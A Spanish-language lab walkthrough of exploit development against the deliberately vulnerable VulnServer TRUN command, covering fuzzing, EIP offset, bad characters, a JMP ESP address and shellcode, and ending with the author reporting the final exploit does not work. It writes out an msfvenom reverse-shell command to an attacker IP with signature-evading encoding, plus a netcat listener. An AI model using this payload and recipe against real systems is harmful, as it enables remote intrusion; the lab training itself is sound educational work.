# 🛡️**Metodología de análisis de vulnerabilidades y explotación**🛡️

Documento técnico que describe una **metodología completa y reproducible** para el análisis y explotación responsable de vulnerabilidades binarias en entornos de laboratorio. Incluye fases del proceso, herramientas, ejemplos prácticos, flujo de trabajo ante 0days binarios, consideraciones éticas y propuestas de mitigación. Este material está pensado para ser mostrado como parte de un portfolio profesional.

## Contenido

1. [Introducción]
2. [Configuración del laboratorio]
2.1 [Red]
3. [Programas y herramientas necesarias]
3.1 [VulnServer]
3.2 [Mona]
3.3 [Immunity Debugger]
3.4 [IDA Free]
3.5 [Scripts PY]
4. [Metodología de Análisis]
4.1. [Fases Metodológicas del Análisis]
5. [Despliegue de la explotación]
5.1. [Reconocimiento y fuzzing]
5.2. [Descubrimiento del Offset a EIP]
5.3. [Control y validación EIP ]
5.4. [Identificación de Bad Characters]
5.5. [JMP ESP]
5.6. [Generación del Shellcode]

---

## 1. Introducción

Análisis práctico y replicable de explotación binaria a través de vulnserver: metodología, evidencias y mitigaciones, orientado a la formación profesional en reverse engineering y exploit development.

## 2. Configuración del laboratorio

El laboratorio se ha montado como un entorno aislado y reproducible compuesto por **dos máquinas virtuales**:

- **Windows 11 (Target / Debugger)**: máquina que aloja el servicio vulnerable y donde se realiza el análisis dinámico con depurador.

- **Kali Linux (Attacker)**: máquina atacante para generación de payloads, fuzzing y ejecución de scripts de prueba.

### 2.1 Red interna

Configuración de red: ambas VMs en **una red interna**

## 3. Programas y herramientas necesarias

En esta practica utilizaremos estas herramientas:

### 3.1 VulnServer

Es un **servidor de prueba diseñado intencionalmente con vulnerabilidades**, usado principalmente para **practicar explotación de binarios y desarrollo de exploits en Windows**. Se descarga desde [aqui](https://github.com/stephenbradshaw/vulnserver).


### 3.2 Mona

Es un _plugin/scripting toolkit_ escrito en Python creado por Corelan Team para **facilitar y automatizar tareas comunes en el desarrollo de exploits y el análisis de crashes** dentro de depuradores Windows (principalmente **Immunity Debugger**, pero existen adaptaciones para WinDbg/x64dbg). Se descarga desde [aqui](https://github.com/TheMalwareGuardian/Exploit-the-Binary/blob/main/Installers/mona-master-corelan.zip).

### 3.3 Immunity Debugger

Herramienta que es un **depurador (debugger) para Windows especializado en seguridad informática y explotación de vulnerabilidades**. Se descarga desde [aqui](https://github.com/kbandla/ImmunityDebugger/releases/download/1.85/ImmunityDebugger_1_85_setup.exe).


#### ⚠️Atencion⚠️

Cuando abrimos `!mona` en Immunity Debugger nos da error. Para solucionarlo tenemos que abrir la carpeta donde se ha instalado Immunity Debugger y buscar la carpeta `PyCommands`. A continuación pegamos el archivo .py de mona. Esto lo solucionará.


### 3.4 IDA Free

Es un **desensamblador y entorno de análisis estático de binarios interactivo**, ampliamente usado por analistas de malware, reversing engineers y exploit developers para entender el código máquina sin tener el código fuente. Se descarga [aqui](https://out7.hex-rays.com/files/idafree84_windows.exe).


### 3.5 Scripts PY

Scripts de python para los exploits. Se descarga [aqui](https://github.com/TheMalwareGuardian/Exploit-the-Binary/tree/main/Vulnerable%20Binaries/Windows/01%20Vulnserver/Methodology%20%26%20Exploitation/01%20Stack%20Buffer%20Overflow/Exploit)

## 4. Metodología de Análisis

A continuación tienes una **guía técnica** con las fases metodológicas que debes aplicar para el análisis de vulnerabilidades binarias.

### 4.1 Fases Metodológicas del Análisis

1. **Reconocimiento**
 Objetivo: caracterizar el binario y su superficie de ataque.
 Herramienta: Nmap
2. **Análisis estático**
Objetivo: localizar funciones/parsers/paths vulnerables sin ejecutar el binario.
Herramienta: IDA Free
3. **Fuzzing**
Objetivo: encontrar entradas que provoquen fallos sin escribir exploits manualmente.
Herramienta: Scripts de Python
4. **Triaging y análisis de crashes**
Objetivo: determinar causa raíz y si el fallo es explotable.
Herramienta: Immunity + Mona
5. **Exploit**
Objetivo: construir una PoC que demuestre impacto de forma segura.
Herramienta: ImmunityDebugger + Mona + Python

## 5. Despliegue de la explotación

Explotación del comando `TRUN` en VulnServer

---

### 5.1 🔎Reconocimiento y fuzzing

1. Vamos abrir VulnServer en el CMD de Windows y lo ejecutamos.

2. Abrimos la Kali y verificamos que escucha con `nc <IP_target> 9999`.


3. Ponemos el comando `HELP` para visualizar los comandos disponibles:


#### ⚡Hacer un fuzzing con script de pyhton

1. Con el primer script de python vemos que se conectará al server y enviará el comando `HELP`. Al ejecutar deberá mostrarse el comando.

Con el segundo script enviamos paquetes más largos de forma incremental sobre el comando `TRUN`.

2. Abrimos Immunity Debugger,  vamos a `File > Attach > vulnserver` y pulsamos `Play`.

3. Lanzamos el script fuzzing y vemos que muestra el crash al alcanzar los 2200 bytes y así colgando el programa.



---

#### ⚡Fuzzing con SpikeTrun

1. Desde Kali obtenemos este script `.spk` y lo ejecutamos.


2. Si se ha realizado con éxito podemos observar como el fuzzing ha funcionado.


---

### 5.2👨‍💻​Descubrimiento del Offset a EIP

El descubrimiento del **_offset a EIP_** consiste en determinar la posición exacta dentro de un input en la que se sobrescribe el registro de retorno. Primero se envía un patrón único y reproducible que provoca un fallo controlado, luego se identifica el valor que quedó en EIP y se calcula la distancia (offset) desde el inicio del payload hasta ese registro.

Configuramos Mona en Imminuty Debugger para guardar los logs con el comando `!mona config -set workingfolder <ruta del archivo>`

**Es importante saber el EIP para saber cual es la longitud y sobrescribir por demás para generar el buffer overflow. Se puede visualizar en Immunity.**


1. Generamos un **patrón cíclico** para encontrar el desplazamiento exacto del fallo y se guardara en el directorio que pusimos anteriormente: `!mona pattern_create 3000`

2. Ejecutamos el script de Python y al crashear el programa nos fijamos el valor que ha sobrescrito el EIP, en este caso es `396F4338`


3. Después del crash en Immunity, en la consola de Immunity ejecuta:`!mona pattern_offset 396F4338`

Mona devolverá el offset en bytes, por lo que el offset es **2006 bytes** que es la longitud hasta sobrescribir el EIP.

### 5.3 🔒 Control y validación EIP

1. Enviar un patrón único que provoque el crash, ejecutamos el siguiente exploit que envia 2006 bytes de `A` seguidos y de 4 bytes `BBBB`

2. Tras el exploit, visualizamos en Immunity el registro de EIP  esta sobrescrito donde `BBBB` = 42424242
En el valor del tope de la pila `ESP`, hacemos click derecho y seleccionamos `Follow in Dump` y nos mostrara las `A` y luego las `BBBB` para ver la sobreescritura.


Lo que indica que se ha conseguido dominar el flujo de ejecución hasta ese punto y permite avanzar a la etapa siguiente

### 5.4 🔎Encuentra Bad Characters

El objetivo de identificar **_badchars_** es detectar qué bytes son transformados, filtrados, truncados o interpretados de forma especial por el objetivo antes de que la carga útil llegue íntegra a memoria. Es importante identificar y excluir cualquier carácter incorrecto que pueda corromper la carga útil.

- Caracteres malos comunes: \x00, \x0A, \x0D, \xFF.

1. Ahora usaremos `!mona modules` para listar las DLL que no están protegidas y saber si la explotación es viable. En este caso vemos que es viable ya que indica _False_.

2. Ahora ejecutamos el siguiente comando: `mona jmp -r esp`. Estas son direcciones de memorias en las que hay un salto hacia ESP

3. Ejecutamos el siguiente script de la **secuencia completa de bytes** `\x00`–`\xFF` (usada para detectar _badchars_)

4. Tras ejecutar el script, el crash del servidor es inevitable y el EIP señala `42424242`. En el registro ESP, hacemos click derecho le damos a `Follow in Dump` y visualizaremos el byte nulo `\x00`que termina la ejecución.

5. Para automatizar esto y que sea mucho mas fácil usaremos `!mona bytearray -b "\x00"` que se utiliza para enviar la secuencia al objetivo excluyendo el `\x00`, inspeccionar la memoria en el depurador y detectar qué bytes son modificados o truncados por el servicio, proporcionando la lista definitiva de bytes a excluir al construir el _shellcode_.

6. En el siguiente código hacemos una comparación usando el mismo _address_ ESP :
`!mona compare -f C:\Users\vboxuser\Desktop\Vuln\LogsMona\vulnserver\bytearray.bin -a 00F3F9CC`

**Como resultado el byte nulo "\x00" es el único badchar**

### 5.5 🐇 JMP ESP

1. Volvemos a las direcciones en donde haya un salto a la ESP, utilizaremos nuevamente `!mona jmp -r esp` y seleccionamos la dirección **`0x625011c7`**.

2. Vamos a CPU  y en el cuadro izquierdo superior con click derecho le damos `go to > expression`.

3. Esta dirección tiene un salto hacia el ESP.

4. Ejecutamos el script para hacer la prueba del salto con una secuencia de **10 NOPS (\x90)** y **3 (0xCC)** _breakpoints_ donde termina.

5. Vemos el resultado y confirmamos que se redirige la ejecución correctamente.


### 5.6 💻 Generación del Shellcode

1. Abrimos Kali Linux y generamos el payload que si se ejecuta en un objetivo establecerá una _reverse shell_.
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.60 LPORT=443 EXITFUNC=thread --bad-chars "\x00" -e x86/shikata_ga_nai --format python`

- `msfvenom`: herramienta para _generar_ payloads (parte de Metasploit).
- `-p windows/shell_reverse_tcp`: Un _reverse shell_ para Windows: el equipo objetivo abre una conexión hacia el atacante y le da una shell.
- `LHOST=192.168.1.60`: IP a la que el payload intentará conectarse (la “máquina atacante”).
- `LPORT=443`: puerto de destino en esa IP (aquí 443, el puerto HTTPS habitual).
- `EXITFUNC=thread`: indica cómo debe terminar el payload cuando finaliza (detalles técnicos de limpieza).
- `--bad-chars "\x00"`: caracteres a evitar en el binario (por ejemplo el `NUL`), útil para evitar romper ciertos vectores de entrega.
- `-e x86/shikata_ga_nai`: encodificador/obfuscador para transformar el payload (intenta evadir firmas sencillas).
- `--format python`: formatea la salida como código Python (por ejemplo para incrustarlo o generar un script).


Comando `Netcat` que pone a la máquina escuchando en el puerto 443 a la espera:
`sudo nc -nlvp 443`

2. Ejecutamos script para hacer la reverse shell


Se me crashea el vulnserver al lanzar el script y no llega la escucha desde nc en kali he probado de todo y no encuentro la manera de arreglarlo




